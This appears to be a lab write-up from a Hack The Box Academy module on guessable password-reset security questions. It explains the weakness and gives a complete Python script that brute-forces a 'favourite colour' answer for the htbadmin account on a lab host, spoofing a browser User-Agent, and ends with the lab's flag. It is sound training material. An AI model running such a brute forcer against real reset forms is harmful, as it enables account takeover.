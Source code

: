 # Guessable Answers

Often web applications authenticate users who lost their password by requesting that they answer one or multiple questions. Those questions, usually presented to the user during the registration phase, are mostly hardcoded and cannot be chosen by them. They are, therefore, quite generic.

Assuming we had found such functionality on a target website, we should try abusing it to bypass authentication. In these cases, the problem, or rather the weak point, is not the function per se but the predictability of questions and the users or employees themselves. It is common to find questions like the below.

* "`What is your mother's maiden name?`"
* "`What city were you born in?`"

The first one could be found using `OSINT`, while the answer to the second one could be identified again using `OSINT` or via a brute-force attack. Admittedly, answering both questions could be performed without knowing much about the target user.

![](https://academy.hackthebox.com/storage/modules/80/10-registration\_question.png)

We discourage the use of security answers because even when an application allows users to choose their questions, answers could still be predictable due to users’ negligence. To raise the security level, a web application should keep repeating the first question until the user answers correctly. This way, an attacker who is not lucky enough to know the first answer or come across a question that can be easily brute-forced on the first shot cannot try the second one. When we find a web application that keeps rotating questions, we should collect them to identify the easiest to brute force and then mount the attack.

Scraping a website could be quite complicated because some web applications scramble form data or use JavaScript to populate forms. Some others keep all question details stored on the server-side. Therefore, we should build a brute force script utilizing a helper, like when there is an Anti-CSRF token present. We prepared a basic web page that rotates questions and a Python template that you can use to experiment with this attack. You can download the PHP file [here](https://academy.hackthebox.com/storage/modules/80/scripts/predictable\_questions\_php.txt) and Python code [here](https://academy.hackthebox.com/storage/modules/80/scripts/predictable\_questions\_py.txt). Take the time to understand how the web application functions fully. We suggest trying manually and then writing your own script. Use someone else’s script only as a last resort.

**Questions**

Reset the htbadmin user's password by guessing one of the questions. What is the flag?

* Notice that the application changes the question every time we fail to provide the correct answer. Amongst the questions, “What is your favorite color?” seems to be the easiest one to brute force. Hence, this will be the targeted question.
* Modify the above provided script to best fit the target: `URL, question`
* Create the passwords list

```bash
#https://github.com/imsky/wordlists/blob/master/adjectives/colors.txt
vim color.txt
```

Brute forcing script

```python
#script to brute force reset password htbadmin
import sys
import requests
import os.path

# target url, change as needed
url = "http://94.237.63.83:38572/forgot.php"

# fake headers to present ourself as Chromium browser, change if needed
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36"}

# string expected if the answer is wrong
invalid = "Sorry, wrong answer"

# question to bruteforce
question = 'What is your favourite color?'

# wordlist is expected as one word per line, function kept to let you to parse different wordlist format keeping the code clean
def unpack(fline):
    answer = fline

    return answer

# do the web request, change data as needed
def do_req(url, answer, headers):
    # closely inspect POST data sent using any intercepting proxy to create a valid data
    data = {"question": question, "userid": "htbadmin", "answer": answer, "submit": "answer"}
    res = requests.post(url, headers=headers, data=data)

    return res.text

# pretending we just know the message received when the answer is wrong, we flip the check
def check(haystack, needle):
    # if our invalid string is found in response body return False
    if needle in haystack:
        return False
    else:
        return True

def main():
    # check if wordlist has been given and exists
    if (len(sys.argv) > 1) and (os.path.isfile(sys.argv[1])):
        fname = sys.argv[1]
    else:
        print("[!] Please check wordlist.")
        print("[-] Usage: python3 {} /path/to/wordlist".format(sys.argv[0]))
        sys.exit()

    # open the file
    with open(fname) as fh:
        for fline in fh:
            # skip line if starts with a comment
            if fline.startswith("#"):
                continue
            # extract userid and password from wordlist, removing trailing newline
            answer = unpack(fline.rstrip())

            # do HTTP request
            print("[-] Checking word {}".format(answer))
            res = do_req(url, answer, headers)

            # check if response text matches our content
            #print(res)
            if (check(res, invalid)):
                print("[+] Valid answer found: {}".format(answer))
                sys.exit()

if __name__ == "__main__":
    main()

#usage
#python3 brute-force.py color.txt
#HTB{gu3ss4bl3_4n5w3r5_4r3_gu3ss4bl3}
```
